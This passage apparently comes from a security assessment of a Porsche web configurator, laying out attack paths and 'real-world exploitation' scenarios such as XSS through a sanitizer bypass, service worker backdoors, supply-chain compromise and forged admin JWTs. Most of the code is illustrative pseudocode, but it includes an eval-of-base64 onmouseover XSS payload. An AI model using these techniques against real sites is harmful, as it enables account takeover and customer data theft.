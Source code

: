 #### **Path 2: User → Admin Escalation**
```
1. HTML sanitization bypass (6011-bff614aec9ecb925.js)
2. Inject XSS payload with admin token creation
3. Service Worker backdoor installation
4. Complete admin panel takeover
5. Mass data exfiltration
```

#### **Path 3: External → Global Compromise**
```
1. Compromise external dependency (YouTube API, Auth0)
2. Inject supply chain payload
3. Mass authentication theft across all domains
4. Deploy global backdoors
5. Command & control establishment
```

---

## 💥 **REAL-WORLD EXPLOITATION EXAMPLES**

### **Scenario 1: Customer Data Theft**
```javascript
// Customer visits Porsche configurator
// Malicious ad executes via banner.js vulnerability
const stolenData = {
    tokens: extractAllTokens(),
    vehicleConfigs: getVehicleConfigurations(),
    personalInfo: getCustomerProfile(),
    paymentMethods: getPaymentData()
};

// Escalate to premium access
injectPremiumToken();
accessExclusiveContent();
```

### **Scenario 2: Admin Panel Takeover**
```javascript
// Admin views user-generated content with XSS
// HTML sanitizer bypassed via wildcard attributes
<div data-payload="[base64_admin_exploit]" 
     onmouseover="eval(atob(this.getAttribute('data-payload')))">

// Creates super admin token
const superAdminToken = createFakeJWT({
    roles: ['super_admin', 'system_admin'],
    permissions: ['*'],
    bypass_all_restrictions: true
});
```
